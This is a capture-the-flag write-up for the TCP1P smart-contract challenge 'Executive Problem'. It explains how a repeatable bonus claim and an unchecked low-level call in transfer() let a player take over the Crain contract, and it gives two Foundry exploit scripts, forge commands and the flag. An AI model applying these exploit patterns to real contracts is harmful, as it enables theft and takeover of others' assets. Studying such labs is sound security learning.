 # Writeup for Executive Problem

- Hello h4ck3r, welcome to the world of smart contract hacking. In order to understand this writeup you need to understand foundry.

### Challenge Description

If only we managed to climb high enough, maybe we can dethrone someone?

### Exploit

Click [here](./src/contracts/) to view the source contracts.

In this challenge our task is make `isSolved()` function return true.

```
function isSolved() public view returns(bool){
    return crain.crain() != address(this);
}
```

The `isSolved()` function returns `true` if the `crain()` function in the `Crain` contract returns an address that is different from the `Setup` contract address.

Now lets look into Crain contract.

```solidity
constructor(address payable _ce) {
    ce = CrainExecutive(_ce);
    crain = msg.sender;
}
```

In the `Crain` contract, `crain` is a public variable that is set to `msg.sender` in the constructor. Since the `Setup` contract deploys the `Crain` contract, `crain` is initially set to the `Setup` contract address.

```
function ascendToCrain(address _successor) public _onlyExecutives{
    crain = _successor;
}
```

The only way we can change the crain address is by calling the ascendToCrain() by passing the new crain address. But it has a modifier \_onlyExecutives. So in order to call this function we need to pass \_onlyExecutives modifier.

```
modifier _onlyExecutives(){
    require(msg.sender == address(ce), "Only Executives can replace");
    _;
}
```

The `_onlyExecutives()` modifier ensures that `msg.sender` (the caller) is the address of `ce` (Crain Executive). The address of `ce` is set in the constructor. The `Setup` contract first deploys the Crain Executive contract and passes the address of Crain Executive as an argument to the constructor of the Crain contract.

The address of `ce` is set in the constructor and is not changed anywhere. Since we cannot change the `ce` address, we won't be able to directly call the `ascendToCrain()` function. The only way to call `ascendToCrain()` is by making the Crain Executive contract call it. Therefore, we need to check if there is any place where the Crain Executive contract directly calls `ascendToCrain()` or makes any low-level calls.

Now let's look into CrainExecutive contract.

```solidity
function transfer(address to, uint256 _amount, bytes memory _message) public _onlyExecutive{
    require(to != address(0), "Invalid Recipient");
    require(balanceOf[msg.sender] - _amount >= 0, "Not enough Credit");
    uint256 totalSent = _amount;
    balanceOf[msg.sender] -= totalSent;
    balanceOf[to] += totalSent;
    (bool transfered, ) = payable(to).call{value: _amount}(abi.encodePacked(_message));
    require(transfered, "Failed to Transfer Credit!");
}
```

The `transfer()` function takes three arguments: an address `to`, a `uint256` `_amount`, and a `bytes` `_message`. It first executes the `_onlyExecutive()` modifier. If the modifier passes, it performs some balance checks. Then, it makes a low-level call to the address `to` with the data `_message` and the value `_amount`.

If we can call the `transfer()` function and pass the address of the `Crain` contract as `to` and the function selector of `ascendToCrain()` as `_message`, then the `crain` address will be changed. However, to call `transfer()`, we need to become the executive.

```solidity
function becomeExecutive() public {
    require(isEmployee[msg.sender] == true && isManager[msg.sender] == true);
    require(balanceOf[msg.sender] >= 5 ether, "Must be that Rich to become an Executive");
    isExecutive[msg.sender] = true;
    }
```

To become an executive, we need to call `becomeExecutive()`. We will only become an executive if we are both an employee and a manager, and our balance in the contract is at least 5 ether.

Now let's look into how to become employee and manager.

```solidity
function becomeEmployee() public {
    isEmployee[msg.sender] = true;
}
```

By calling the `becomeEmployee()` function, we will become an employee.

```solidity
function becomeManager() public _onlyEmployee{
    require(balanceOf[msg.sender] >= 1 ether, "Must have at least 1 ether");
    require(isEmployee[msg.sender] == true, "Only Employee can be promoted");
    isManager[msg.sender] = true;
}
```

To become a manager, we need to call `becomeManager()`. We will only become a manager if we are an employee and our balance in the contract is at least `1 ether`.

Therefore, to become an executive, we need to become both a manager and an employee. To become a manager, we need `1 ether`, and to become an executive, we need `5 ether`. In total, we need `6 ether`.

Now we need to make our balance 6 ether. When I looked into the code, I found two ways to get 6 ether.

```solidity
function claimStartingBonus() public _onlyOnePerEmployee{
    balanceOf[owner] -= 1e18;
    balanceOf[msg.sender] += 1e18;
}
```

The first way is by calling `claimStartingBonus()`. When we call `claimStartingBonus()`, it will execute the `_onlyOnePerEmployee()` modifier. The modifier has a check: `require(hasTakeBonus[msg.sender] == false, "Bonus can only be taken once!");`, but since `hasTakeBonus[msg.sender]` is not updated in the `claimStartingBonus()` function, we will be able to call the function 25 times, as the owner has only 25 ether. However, we actually need only 6 ether to become an executive.

```solidity
function buyCredit() public payable _onlyEmployee{
    require(msg.value >= 1 ether, "Minimum is 1 Ether");
    uint256 totalBought = msg.value;
    balanceOf[msg.sender] += totalBought;
    totalSupply += totalBought;
}
```

The second way is by calling `buyCredit()` function after becoming an employee. In the instance, they have given 7 ether as our wallet balance. So we can directly send 6 ether while calling the `buyCredit()` function, and it will set our balance to 6 ether.

Let's recall all the steps involved to exploit:

Below are the Exploit scripts:

### Script 1: Using `claimStartingBonus()`

1. Get a balance of at least 6 ether by calling `claimStartingBonus()` multiple times.
2. Become an employee by calling `becomeEmployee()`.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

### Script 2: Using `buyCredit()`

1. Become an employee by calling `becomeEmployee()`.
2. Get a balance of 6 ether by calling `buyCredit()` and sending 6 ether.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

Below are the Exploit scripts

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(0xD3AC2f52E7dCCe686BA20aD048079e094A047CEf);
        for (uint256 i = 0; i < 6; i++) {
            setup.cexe().claimStartingBonus();
        }
        setup.cexe().becomeEmployee();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}

```

```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive1 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(//YOUR__SETUP__ADDR);
        setup.cexe().becomeEmployee();
        setup.cexe().buyCredit{value: 6 ether}();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitExecutive.s.sol:ExploitExecutive2 --rpc-url http://ctf.tcp1p.team:44455/01921e42-61fb-498e-8533-12498c9f96b2 --broadcast -i 1
```

Any of the above two scripts will work; you can use either one. The only difference between the two scripts is how we get the ether. I hope you This writeup is helpful.

**Flag:** `TCP1P{Imagine_getting_kicked_out_like_that_by_s0m3_3Xecu7iVE}`

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
